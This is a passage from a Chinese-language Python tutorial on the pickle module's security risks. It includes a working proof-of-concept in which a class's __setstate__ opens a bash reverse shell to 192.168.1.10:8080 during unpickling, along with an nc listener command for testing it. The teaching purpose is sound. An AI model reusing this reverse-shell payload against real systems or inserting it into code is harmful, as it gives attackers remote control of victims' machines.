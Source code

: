 ```
259` 
```

使用压缩时，请记住较小的文件是以较慢的进程为代价的。

## Python `pickle`模块的安全问题

您现在知道了如何使用`pickle`模块在 Python 中序列化和反序列化对象。当您需要将对象的状态保存到磁盘或通过网络传输时，序列化过程非常方便。

然而，关于 Python `pickle`模块还有一件事你需要知道:它是不安全的。还记得`__setstate__()`的讨论吗？这个方法非常适合在解包时进行更多的初始化，但是它也可以用来在解包过程中执行任意代码！

那么，你能做些什么来降低这种风险呢？

可悲的是，不多。经验法则是**永远不要解压来自不可信来源或通过不安全网络传输的数据**。为了防止[中间人攻击](https://en.wikipedia.org/wiki/Man-in-the-middle_attack)，使用`hmac`之类的库对数据进行签名并确保它没有被篡改是个好主意。

以下示例说明了解除被篡改的 pickle 会如何将您的系统暴露给攻击者，甚至给他们一个有效的远程外壳:

```
`# remote.py
import pickle
import os

class foobar:
    def __init__(self):
        pass

    def __getstate__(self):
        return self.__dict__

    def __setstate__(self, state):
        # The attack is from 192.168.1.10
        # The attacker is listening on port 8080
        os.system('/bin/bash -c
                  "/bin/bash -i >& /dev/tcp/192.168.1.10/8080 0>&1"')

my_foobar = foobar()
my_pickle = pickle.dumps(my_foobar)
my_unpickle = pickle.loads(my_pickle)` 
```

在这个例子中，拆包进程执行`__setstate__()`，它执行一个 Bash 命令来打开端口`8080`上的`192.168.1.10`机器的远程 shell。

以下是如何在您的 Mac 或 Linux 机器上安全地测试这个脚本。首先，打开终端并使用`nc`命令监听到端口 8080 的连接:

```
`$ nc -l 8080` 
```

这将是*攻击者*终端。如果一切正常，那么命令似乎会挂起。

接下来，在同一台计算机上(或网络上的任何其他计算机上)打开另一个终端，并执行上面的 Python 代码来清除恶意代码。确保将代码中的 [IP 地址](https://realpython.com/python-ipaddress-module/)更改为攻击终端的 IP 地址。在我的例子中，攻击者的 IP 地址是`192.168.1.10`。

通过执行此代码，受害者将向攻击者公开一个外壳:
